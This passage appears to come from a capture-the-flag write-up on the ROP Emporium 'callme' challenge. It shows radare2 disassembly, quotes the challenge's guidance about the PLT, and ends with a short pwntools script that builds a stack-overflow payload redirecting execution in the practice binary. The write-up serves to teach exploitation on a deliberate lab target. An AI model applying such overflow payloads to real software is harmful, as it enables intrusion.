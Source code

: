 And there's a `usefulFunction` for us to look at again:

```asm
[0x004018a0]> pdf @ sym.usefulFunction
/ (fcn) sym.usefulFunction 74
|   sym.usefulFunction ();
|           0x00401a57      55             push rbp
|           0x00401a58      4889e5         mov rbp, rsp
|           0x00401a5b      ba06000000     mov edx, 6
|           0x00401a60      be05000000     mov esi, 5
|           0x00401a65      bf04000000     mov edi, 4
|           0x00401a6a      e8a1fdffff     call sym.imp.callme_three
|           0x00401a6f      ba06000000     mov edx, 6
|           0x00401a74      be05000000     mov esi, 5
|           0x00401a79      bf04000000     mov edi, 4
|           0x00401a7e      e8edfdffff     call sym.imp.callme_two
|           0x00401a83      ba06000000     mov edx, 6
|           0x00401a88      be05000000     mov esi, 5
|           0x00401a8d      bf04000000     mov edi, 4
|           0x00401a92      e8b9fdffff     call sym.imp.callme_one
|           0x00401a97      bf01000000     mov edi, 1                  ; int status
\           0x00401a9c      e8dffdffff     call sym.imp.exit           ; void exit(int status)
```

The challenge has a useful bit of explaining text:

> Important:
> To dispose of the need for any RE we'll tell you the following:
> You must call callme_one(), callme_two() and callme_three() in that order, each with the arguments 1,2,3 e.g. callme_one(1,2,3) to print the flag. The solution here is simple enough, use your knowledge about what resides in the PLT to call the callme_ functions in the above order and with the correct arguments. Don't get distracted by the incorrect calls to these functions made in the binary, they're there to ensure these functions get linked. You can also ignore the .dat files and the encrypted flag in this challenge, they're there to ensure the functions must be called in the correct order.

The text refers to the PLT, or the "Procedural Linkage Table". Appendix A in the [Guide](https://ropemporium.com/guide.html) does a pretty good job describing it and is definitely worth reading. 

It's worth walking through PLT resolution in order to illustrate its working. In order to see it in action, we want to be able to force the executable to jump to one of the `callme` functions.

In order to do that, we can craft a payload and then tell radare to use the payload when running. To craft the payload we can use a small python script:
```python

from pwn import *

payload = "A" * 40

useful_function = p64(0x00401a57)

payload += useful_function

open('payload', 'w').write(payload)
```
